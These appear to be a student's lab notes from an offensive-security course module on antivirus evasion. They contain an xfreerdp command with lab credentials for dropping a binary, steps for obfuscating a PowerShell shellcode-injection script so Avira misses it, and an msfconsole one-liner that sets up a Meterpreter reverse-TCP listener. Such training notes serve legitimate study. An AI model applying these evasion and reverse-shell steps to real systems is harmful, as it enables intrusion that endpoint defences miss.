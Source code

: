 ### 14.3.2 Walkthrough

First you turn on the Avira AV app

next  I used this command to open up an RDP and map a drive to drop the binary.exe document in the desktop so the AV can see it
 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

Once dropped, the virus scanner detected it.
Next, created a bypass.ps1 
![[Pasted image 20231017192121.png]]

replaced the "Win32" with "iWin32"
replaced the "sc" with "var1"
replaced the "winFunc" with "var2"
![[Pasted image 20231017192241.png]]
next, dropped the file in Downloads and moved it to the desktop
Opened a Shell prompt and try to run it with no results. Changed the execution policy to be able to run the script
![[Pasted image 20231017192331.png]]
once run and having the nc open, you should be connected!

### 14.3.3 Capstone Exercise #1

![[Pasted image 20231017202017.png]]
![[Pasted image 20231018174525.png]]

![[Pasted image 20231017202440.png]]
Download the 32 .exe file
![[Pasted image 20231018175542.png]]

![[Pasted image 20231018180301.png]]
for this payload, we use the following msfvenom

$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;" ^afd7cb

